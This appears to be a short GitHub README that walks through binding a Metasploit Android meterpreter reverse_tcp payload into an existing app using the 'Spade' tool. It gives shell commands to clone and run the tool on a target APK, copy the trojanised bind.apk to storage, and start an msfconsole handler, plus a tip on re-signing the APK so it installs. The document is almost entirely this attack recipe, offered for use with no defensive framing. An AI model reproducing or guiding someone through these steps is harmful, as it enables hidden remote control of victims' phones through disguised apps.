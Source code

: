 # Metasploit-payload-to-existing-App-
Payload binding in existing app (spade method)


$ git clone https://github.com/Cesar-Hack-Gray/Spade

$ cd Spade

$ ls

$ cp install.sh $HOME

$ cd

$ ls

$ bash install.sh

$cd

$ cd spade

$ bash spade /sdcard/org.apk
( set lhost and lport)

$ cd Gray

$ cp bind.apk /sdcard

$ msfconsole

ms5>  use exploit/multi/handler
ms5> set payload android/meterpreter/reverse_tcp
ms5> set lhost 
ms5> set port
ms5> exploit

(if any problem in installing app . download apk sign and after install using apk sign)


                                          ----Jack Daniel

